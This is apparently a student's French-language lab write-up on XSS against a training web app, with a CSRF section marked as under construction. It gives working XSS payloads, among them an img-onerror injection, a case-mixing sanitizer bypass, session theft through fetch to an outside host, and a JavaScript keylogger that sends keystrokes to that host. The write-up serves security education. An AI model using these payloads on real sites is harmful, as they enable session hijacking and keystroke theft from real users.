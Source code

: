# XSS-CSRF
https://xss-csrf-tp.herokuapp.com/men
## Partie 1 - XSS

### Level 1 : 
Pour ce niveau, j’ai décidé d’intégrer une image dans l’URL qui affiche un message d’erreur  si elle n’est pas trouvée → une popup d’erreur s’affiche https://xss-csrf-tp.herokuapp.com/level/1?page=%3Cimg%20src=%22alert%22%20onerror=%22alert(%27danger%27)%22%3E 

### Level 2 :
* Pour ce niveau,  j’ai repris ma démarche précédente en insérant ```<img src="alert" onerror="alert('danger')">``` dans le champ titre du formulaire ainsi l’image qui doit être affiché n’est pas trouvée → une popup d’erreur s’affiche par contre ```<script>alert(‘danger’)</script>``` ne fonctionne pas
* On dirait que le navigateur protége le site en effectuant un genre d’escape
* L’API Fetch de JS effectue une requete asynchrone en utilisant un appel AJAX pour recuperer les données
* La solution que je prefere est ```<img src="danger" onerror="while(true) { alert(‘danger’); }">```
* Pour envoyer sur heroku la session de l’utilisateur de maniere invicible, j’utilise : ```<img src="danger" onerror="fetch('https://website-alex.herokuapp.com/', {method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({sessionName: sessionStorage.SessionName, session: sessionStorage.getItem('SESSIONDANGER')})})">```

### Level 3 :
* Pour rusez le bypass du sanitizer, j’ai simplement ajouter des majuscule dans les balise script ainsi les scripts sont ajouté dans le DOM
* Pour faire un keylogger en JS qui envoie les données sur heroku : ```<sCript>document.addEventListener('keypress', function(event) { console.log(String.fromCharCode( event.which )); fetch('https://website-alex.herokuapp.com/', {method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({keypressed: String.fromCharCode( event.which )})})}); </sCript>```

## Partie 2 - CSRF

En construction
